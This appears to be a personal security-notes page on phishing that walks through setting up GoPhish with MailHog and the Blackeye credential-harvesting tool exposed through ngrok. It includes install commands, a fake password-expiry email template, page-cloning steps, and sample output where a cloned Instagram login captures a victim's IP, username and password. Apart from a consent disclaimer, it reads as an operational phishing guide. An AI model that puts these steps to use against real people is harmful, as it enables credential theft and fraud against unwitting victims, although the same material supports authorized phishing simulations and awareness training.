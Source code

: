 #+title:Phishing
#+OPTIONS: \n:t
#+roam_tags: Social_Engineering
#+attr_html: :width 100px

[WARNING: WRITER ARE NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE CAUSED BY USING TOOLS MENTIONED IN THIS REPO. IT IS ILLEGAL TO USE THIS TOOLS WITHOUT MUTUAL CONSENT, YOU'VE BEEN WARNED!]

Phishing is a type of attack that are using E-mail, voice (Vishing), or SMS (smishing) to attack its target. This kind of attack can be pointed into an individual which is called as spear phishing. Phishing has been around since 90s targeting America Online (AOL). In these day and age, phishing is disguised in many ways, from E-mail notification of a big company sending you money, or even from a fake account that are sending you "love letter" with malware in disguise.

** How does it work?

Phishing can be done in multiple ways, while phishing itself can be run through E-mail, you might want to use other means of attack if you are targeting a specific person that might or might not use E-mail. Whatsapp, social media, can be used for Phishing campaign, it is because the educational backgrounds in social media nowadays are mostly teenagers, which is a possible target for phishing.

Phishing servers are usually run on cloud services, or can be hosted local in a computer, but since Phishers are sneaky, one might use public instances to do the attack. Each fake E-mail is sent to victim(s) E-mail address in lieu of other means of attack said above. Digital Ocean or AWS might be a good place to hosts this server. While the E-mail is sent, Phishers might get notice when the link is clicked or opened, if the E-mail is read or not, if the Landing Page sent already have forms filled by victim(s) or not, and any information related to the campaign.

** Gophish

WEB: https://getgophish.com | GIT: https://github.com/gophish/gophish

GoPhish can be used to create a campaign based Phishing environment, for this environment to work, we have to set up some boundaries first, one rule of thumb, do not use your personal mail address for this. =Mailhog= will help assigning email@localhost.localdomain to hog all the mail that sent or receive during the campaign, it is possible to use other E-mail address, but there's some issues that when sent to an E-mail address based on Google, it is possible that it will already flagged as spam or something else to help with the security.

There are multiple preparation that you can do to help with assigning things later for gophish:
- AWS, Azure, Digital Ocean, or local can be used as the base for GoPhish server.
- GoPhish might want E-mail address like Mailhog or other E-mail services that have smtp available can be used.
- Target E-mail, E-mail content, and a Landing Page, are needed for GoPhish to work.
  + GoPhish might want a Landing Page that are possible to be duplicated, as of writing, it is currently not possible to copy Facebook based web address, but your mileage may vary.
  + GoPhish also want E-mails that can use smtp, the username and password in the page needs your e-mail credentials, this is why it is not even recommended to use your personal address, use E-mail services that are not connected to you by any means.

#+begin_src shell
# GoPhish
$ mkdir -p ~/opt/gophish
$ cd ~/opt/gophish
$ curl -L https://github.com/gophish/gophish/releases/download/0.7.1/gophish-v0.7.1-linux-64bit.zip -o gophish.zip
$ unzip gophish.zip

# MailHog
$ sudo apt-get -y install golang-go
$ go get github.com/mailhog/MailHog
#+end_src

#+RESULTS:

Once you clone GoPhish and installing MailHog, you can then run it via command line by running:

#+begin_src shell
# 1st Terminal
$ cd ~/opt/gophish
$ sudo ./gophish

# 2nd Terminal
$ cd ~/go/bin
$ sudo ./MailHog
#+end_src

Once you run it on *separate* terminal, now we need to go to https://localhost:3333 for GoPhish and https://localhost:8025 for MailHog. There are some templates you have to fill before we launch the attack, this will be discussed on the next section. Username for *GoPhish* is =admin= & =gophish=.

*** Sending Profile

[[./Assets/GoPhish_Sending_Profiles.png]]

You might want to use port =1025= for smtp, it will be already configured if you run MailHog, this will send email to that smtp address, also you can try =Send Test Email= to check if it is sending to the right address.


*** Landing Pages

[[./Assets/GoPhish_Landing_Pages.png]]
[[./Assets/GoPhish_Landing_Pages_URL.png]]

Here will be where you import the site, click on import and include URL to the page that you want to clone, also you can redirect it to the real address.

*** E-Mail Templates

[[./Assets/GoPhish_Email.png]]

You can use Templates as above, it is taken from official GoPhish documentation page, you might want to go [[https://docs.getgophish.com/user-guide/building-your-first-campaign/creating-the-template][here]]. It is also possible to include attachments using this email, since it is only for testing purpose, it will attached nothing.

#+begin_src
Subject {{.Email}}

{{.FirstName}},

The password for {{.Email}} has expired.

Please reset your password here.

Thanks, Campus Ground

{{.Tracker}}
#+end_src

[[./Assets/GoPhish_Email_URL.png]]

To include the url, you have to highlight the word here and click *link* button in the html editor, it will then brought you this window to include your URL.

*** Groups

[[./Assets/GoPhish_Groups.png]]


Since it is possible if you want to send it to multiple people, you can have it inside the groups, you can import it using CSVs.

*** Launching Campaign

After all the preparation, we can then go to *Campaign* page and create a new campaign, you can also clone or edit your campaign here.

[[./Assets/GoPhish_Campaign.png]]

Be sure to point the URL to your localhost for this, or to the server you're running if you're using instances like Digital Ocean or AWS.

*** Dashboard

You can then see your victims and overall status from the dashboard area.

[[./Assets/GoPhish_Dashboard.png]]
[[./Assets/GoPhish_Results.png]]


*** MailHog

This will be the E-mail that you get from GoPhish.

[[./Assets/MailHog.png]]


** Blackeye

GIT: https://github.com/An0nUD4Y/blackeye

Installation:
- PHP ( Should be available in Kali Linux )
- Ngrok ( Create your account first )
- GIthub Account ( Easier )

[ WARNING ] This preparation are needed if =blackeye.sh= not working as intended, as precaution, we have to manually run the ngrok server and serve the php to our http://localhost:8080 ( or another port ) to get it to works. Go to next section to actually run =blackeye=.

Here is the command you need to install and setup ngrok manually, though you will proabably be downloading this again in =blackeye=, so you might want to copy ngrok to your =blackeye= folder later. Authtoken can be seen [[https://dashboard.ngrok.com/get-started/your-authtoken][here]].

#+begin_src shell
$ git clone https://github.com/An0nUD4Y/blackeye
$ cd blackeye
$ wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
$ unzip ngrok-stable-linux-amd64.zip
$ ./ngrok authtoken 0000000000000000000000000000000000000000000000000
#+end_src

If you run ngrok server by itself, it will be seen like this:

#+begin_src shell
ngrok by @inconshreveable

Session Status                online
Account                       account-name (Plan: Free)
Version                       2.3.35
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://alphanumeric.ngrok.io -> http://localhost:8080
Forwarding                    https://alphanumeric.ngrok.io -> http://localhost:8080

Connections                   ttl     opn     rt1     rt5     p50     p90
                              22      0       0.25    0.07    0.06    3.14
#+end_src

As of when this articles made, you can access http://127.0.0.1:4040/status to check ngrok status and below =command_line= section, you will see your URL that can be used.

#+begin_src shell
$ sudo ./blackeye.sh # Password Needed

[sudo] password for archaict:

     :: Disclaimer: Developers assume no liability and are not    ::
     :: responsible for any misuse or damage caused by BlackEye.  ::
     :: Only use for educational purporses!!                      ::

     ::     BLACKEYE v1.5! By @suljot_gjoka & @thelinuxchoice     ::

          [01] Instagram      [17] DropBox        [33] eBay
          [02] Facebook       [18] Adobe ID       [34] Amazon
          [03] Snapchat       [19] Shopify        [35] iCloud
          [04] Twitter        [20] Messenger      [36] Spotify
          [05] Github         [21] GitLab         [37] Netflix
          [06] Google         [22] Twitch         [38] Custom
          [07] Origin         [23] MySpace
          [08] Yahoo          [24] Badoo
          [09] Linkedin       [25] VK
          [10] Protonmail     [26] Yandex
          [11] Wordpress      [27] devianART
          [12] Microsoft      [28] Wi-Fi
          [13] IGFollowers    [29] PayPal
          [14] Pinterest      [30] Steam
          [15] Apple ID       [31] Bitcoin
          [16] Verizon        [32] Playstation

[*] Choose an option: 1 # choose your poison

[*] Starting php server...
[*] Starting ngrok server...
[*] Send this link to the Victim: # check http://localhost:4040
[*] Waiting victim open the link ...

[*] IP Found!
[*] Victim IP: 127.0.0.1 # It will be your public IP here (SECRET)
[*] User-Agent:  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/XX.0
[*] Saved: instagram/saved.ip.txt

[*] Waiting credentials ...

[*] Credentials Found!
[*] Account: helloWorld
[*] Password:  12345678
[*] Saved: sites/instagram/saved.usernames.txt
#+end_src

If your php is not connected, you can do this instead before running =blackeye=.

#+begin_src shell
$ php -d /path/to/blackeye/sites/instagram -S localhost:8080
#+end_src
